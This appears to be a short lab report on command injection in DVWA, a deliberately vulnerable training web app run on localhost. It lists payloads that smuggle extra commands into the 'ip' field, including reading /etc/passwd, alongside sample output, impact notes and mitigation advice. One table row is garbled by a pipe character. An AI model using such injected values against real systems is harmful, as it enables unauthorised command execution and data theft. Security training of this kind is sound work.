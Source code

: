 # Web-vulnerabilities# 🧨 Command Injection Vulnerability Report

## 🔍 Vulnerability Name
Command Injection

## 🧪 Vulnerable Application
DVWA - Damn Vulnerable Web Application  
URL: http://localhost/dvwa/vulnerabilities/exec/

## 🔓 Security Level
Low

## ⚙️ Vulnerable Parameter
- `ip` parameter

## 🧾 PoC (Proof of Concept)
### 1. Input:
```text
127.0.0.1; whoami

uid=33(www-data) gid=33(www-data) groups=33(www-data)
⚔️ Payloads Tested
| Payload                      | Description      |                      |
| ---------------------------- | ---------------- | -------------------- |
| `127.0.0.1; whoami`          | Run `whoami`     |                      |
| `127.0.0.1 && id`            | Chain with `id`  |                      |
| \`127.0.0.1                  | uname -a\`       | Use pipe for `uname` |
| `127.0.0.1; cat /etc/passwd` | Read system file |                      |


    🔥 Impact
Remote command execution could allow an attacker to:

Read sensitive files

Gain shell access

Escalate privileges

🛡️ Mitigation
Avoid using system(), exec(), or shell_exec() with user input.

Use whitelist validation.

Escape user inputs if necessary.

Use safe libraries like subprocess.run() with shell=False.

